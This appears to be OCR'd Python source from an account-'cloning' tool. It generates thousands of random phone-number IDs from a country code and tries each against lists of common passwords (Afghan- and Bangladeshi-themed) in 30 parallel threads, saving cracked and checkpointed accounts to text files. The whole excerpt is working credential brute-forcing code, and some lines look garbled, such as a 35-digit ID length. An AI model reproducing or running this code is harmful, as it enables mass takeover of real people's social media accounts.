                 with tred(max_workers=30) as AWM:     
                        clear()
                        tl = str(len(user))
                        print('\033[1;97m [+] \033[1;32mTotal ids : \033[1;32m'+tl)
                        print('\033[1;97m [+] \033[1;32mCLONING STARTED  ')
                        print('\033[1;97m [+] \033[1;32mON/OFF YOUR MOBILE DATA BEFORE USE ')
                        print('\033[1;97m [+]-------------------------------------------------------')
                        print("\033[1;97m [+]\033[1;32m OK IDS SAVE ✓ JARED-OK.txt")
                        print("\033[1;97m [+]\033[1;32m CP IDS SAVE × JARED-CP.txt")
                        print("\033[1;97m [+]\033[1;32m       WE ARE FILIPINO ")
                        print('\033[1;97m [+]-------------------------------------------------------')
                        for psx in user:
                                ids = code+psx
                            
                            
                                passlist = [psx,ids,psx[1:],'Afghan123','Afghanistan','afghan12345', 'afghanistan', 'afghan1234', 'afghan123','600700','۱۲۳۴۵۶۷۸۹',' kabul123', '۱۲۳۴۵۶','khan123']
                            
                                AWM.submit(rndm2,ids,passlist)
                print('\033[1;37m')
                print('\033[1;97m [+]-------------------------------------------------------')
                print(' [+] The process has completed')
                print(' [+]\033[1;32m [+] Total OK/CP/2F: '+str(len(oks))+'/'+str(len(cps))+'/'+str(len(twf)))
                print('\033[1;97m [+]-------------------------------------------------------')
                input(' [+]Press enter to back ')
                os.system('python JaReDtOoL.py')
                menu() 
 
def bd():
                user=[]
                global lim
                clear()
                print('\033[1;31m [+] Code example: 88017 ,88013 ,88018 ,88019 ,88016 ,88015')
                code = input('\033[1;37m [+] put code: ')
                try:
                        limit = int(input('\033[1;31m [+] example: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
                except ValueError:
                        limit = 5000
                lim=limit
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(7+8+9+11))
                        user.append(nmp)
                
                with tred(max_workers=30) as AWM:     
                        clear()
                        tl = str(len(user))
                        print(' \033[1;32m [+] Total ids : \033[1;32m'+tl)
                        print(f'\033[1;32m [+] CLONING STARTED')
                        print(f'\033[1;32m [+] ON/OFF YOUR MOBILE DATA BEFORE USE ')
                        print('\033[1;97m [+]-------------------------------------------------------')
                        print("\033[1;32m [+] OK IDS SAVE ✓ JARED-OK.txt")
                        print("\033[1;32m [+] CP IDS SAVE × JARED-CP.txt")
                        print("\033[1;32m [+]       WE ARE FILIPINO ")
                        print('\033[1;97m [+]-------------------------------------------------------')
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'free fire','Free Fire','i love you','bangladesh','I love you','786786','22334455','123456789','102030','100200']
                                AWM.submit(rndm2,ids,passlist)
                print('\033[1;37m')
                print('\033[1;97m [+]-------------------------------------------------------')
                print(' [+] The process has completed')
                print(' [+]\033[1;32m [+] Total OK/CP/2F: '+str(len(oks))+'/'+str(len(cps))+'/'+str(len(twf)))
                print('\033[1;97m [+]-------------------------------------------------------')
                input(' [+] Press enter to back ')
                os.system('python Fahad.py')